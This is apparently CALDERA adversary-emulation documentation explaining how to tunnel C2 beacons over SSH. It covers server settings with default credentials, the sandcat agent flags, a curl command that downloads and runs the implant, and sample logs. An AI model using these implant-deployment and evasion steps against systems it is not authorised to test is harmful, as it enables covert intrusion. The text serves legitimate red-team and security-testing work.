 # C2 Communications Tunneling
In addition to built-in contact methods such as HTTP, DNS, TCP, and UDP, CALDERA also provides support for tunneling C2 traffic, which supporting agents can use to mask built-in contact methods for added defense evasion.
Currently, the only available tunneling method is SSH tunneling, which is only supported by the sandcat agent.

## SSH Tunneling
Sandcat agents can use SSH tunneling to tunnel C2 contact mechanisms, namely HTTP(S). CALDERA also provides built-in support to spin up a minimal local SSH server for SSH tunneling.

### Usage - Serverside
Within the CALDERA configuration file, adjust the following entries according to your environment:
    - `app.contact.tunnel.ssh.host_key_file`: File name for the server's SSH private host key. You can generate your own SSH private host key for the CALDERA server. The file must reside in the `conf/ssh_keys` directory. If the CALDERA server cannot find or read the provided private host key, it will generate a temporary RSA host key to use for operations. Although this would cause security warnings under normal circumstances, the sandcat agent implementation of SSH tunneling does not attempt to verify hosts, and thus should not be affected by changing or temporary host keys.
    - `app.contact.tunnel.ssh.host_key_passphrase`: Passphrase for the server's SSH private host key. The server will use this passphrase to read the private host key file provided in `app.contact.tunnel.ssh.host_key_file`.
    - `app.contact.tunnel.ssh.socket`: Indicates the IP address and port that the CALDERA server will listen on for SSH tunneling connections (e.g. `0.0.0.0:8022`).
    - `app.contact.tunnel.ssh.user_name`: User name that agents will use to authenticate to the CALDERA server via SSH. The default value is `sandcat`.
    - `app.contact.tunnel.ssh.user_password`: Password that agents will use to authenticate to the CALDERA server via SSH. The default value is `s4ndc4t!`.

Once the configuration entries are set, simply start the CALDERA server up as normal via the `server.py` Python program, and CALDERA will automatically attempt to start an SSH server that listens on the specified socket (`app.contact.tunnel.ssh.socket`). 

The contact will first attempt to read in the host private key file specified by `app.contact.tunnel.ssh.host_key_file`, using the passphrase specified by `app.contact.tunnel.ssh.host_key_passphrase`. If it cannot read the file for whatever reason (e.g. file does not exist, or the passphrase is incorrect), then the server will generate its own temporary private key to use for the server. 

The SSH server should only be used between agents and the C2 server and should not be used to SSH into the CALDERA server manually (e.g. to manage the server remotely).

### Usage - Agent
The sandcat agent is currently the only agent that supports SSH tunneling. To use it, the `server`, `tunnelProtocol`, `tunnelAddr`, `tunnelUser`, and `tunnelPassword` arguments must be used. 
    - `server` value is the CALDERA server endpoint that the tunnel will connect to - if the agent is tunneling HTTP communications through SSH, then `server` should be the HTTP socket for the CALDERA C2 server (e.g. `http://10.10.10.15:8888`). 
    - `tunnelProtocol` value is the name of the tunneling mechanism that the agent is using. For SSH, the value must be `SSH`. 
    - `tunnelAddr` is the port number or IP:port combination that indicates which port or socket to connect to via SSH to start the tunnel (e.g. `8022` or `10.10.10.15:8022`). If only a port number is provided, the agent will try to connect to the IP address from `server` using the specified port. The server listening on the port/socket should be listening for SSH connections from agents.
    - `tunnelUser` indicates which username to use to authenticate to `tunnelAddr` via SSH. This username should match the CALDERA configuration value for `app.contact.tunnel.ssh.user_name`.
    - `tunnelPassword` indicates which password to use to authenticate to
`tunnelAddr` via SSH. This password should match the CALDERA configuration value for `app.contact.tunnel.ssh.user_password`.

To tunnel different contacts through SSH tunneling, simply adjust the `c2` and `server` values as needed.

When authenticating to the provided SSH server, the sandcat agent will use the username/password provided by the `tunnelUser` and `tunnelPassword` arguments. Whatever credentials the agent uses must reflect the CALDERA configuration values specified in `app.contact.tunnel.ssh.user_name` and `app.contact.tunnel.ssh.user_password`. The agent will then open a random local port to act as the local endpoint of the SSH tunnel. This local endpoint becomes the `upstream_dest` value for the agent.

The following commandline will start a sandcat agent that will open up an SSH tunnel to the CALDERA c2 server at `192.168.140.1:8022`, and the tunneled communications will be sent to the c2 server's HTTP endpoint at `192.168.140.1:8888`:
```sh
server="http://192.168.140.1:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;
chmod +x sandcat.go;
./sandcat.go -server $server -v -tunnelProtocol SSH -tunnelAddr 8022 -tunnelUser sandcat -tunnelPassword s4ndc4t!
```

The above Linux agent will produce verbose output similar to the following:
```
SStarting sandcat in verbose mode.
[*] Starting SSH tunnel
Starting local tunnel endpoint at localhost:52649
Setting server tunnel endpoint at 192.168.140.1:8022
Setting remote endpoint at localhost:8888
[*] Listening on local SSH tunnel endpoint
[*] SSH tunnel ready and listening on http://localhost:52649.
[*] Attempting to set channel HTTP
Beacon API=/beacon
[*] Set communication channel to HTTP
initial delay=0
server=http://192.168.140.1:8888
upstream dest addr=http://localhost:52649
group=red
privilege=User
allow local p2p receivers=false
beacon channel=HTTP
Local tunnel endpoint=http://localhost:52649
[*] Accepted connection on local SSH tunnel endpoint
[*] Listening on local SSH tunnel endpoint
[*] Forwarding connection to server
[*] Opened remote connection through tunnel
[+] Beacon (HTTP): ALIVE
```

The agent connected to the C2 server via SSH at `192.168.140.1:8022` and opened a local SSH tunnel on local port 52649 that tunnels HTTP traffic to the C2 server at `192.168.140.1:8888`. This is the equivalent of running `ssh -L 52649:localhost:8888 sandcat@192.168.140.1 -p 8022 -N`.

Note that the agent's upstream destination endpoint is set to the local SSH tunnel endpoint at `http://localhost:54351` (the protocol is set to `http` since the agent is tunneling HTTP comms), while the true server value is the final tunnel destination at `http://192.168.140.1:8888`.

If running the CALDERA c2 server with logging verbosity set to `DEBUG`, you may see output similar to the following when an agent connects via SSH tunneling:
```
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Accepted SSH connection on 192.168.140.1, port 8022
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Client address: 192.168.140.100, port 43796
2021-03-26 09:12:43 - DEBUG (contact_ssh.py:52 connection_made) SSH connection received from 192.168.140.100.
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Requesting key exchange
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Received key exchange request
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Beginning key exchange
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Completed key exchange
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Beginning auth for user sandcat
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Trying password auth
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Auth for user sandcat succeeded
2021-03-26 09:12:43 - DEBUG (contact_ssh.py:48 connection_requested) Connection request from 0.0.0.0:0d to localhost:8888
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2, chan=0] Set write buffer limits: low-water=16384, high-water=65536
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Accepted direct TCP connection request to localhost, port 8888
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Client address: 0.0.0.0
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Forwarding TCP connection to localhost, port 8888
2021-03-26 09:12:43 - DEBUG (contact_svc.py:64 handle_heartbeat) First time HTTP beacon from kliuok
```

Once the tunnel is established, operators can proceed as normal with agent activity and operations.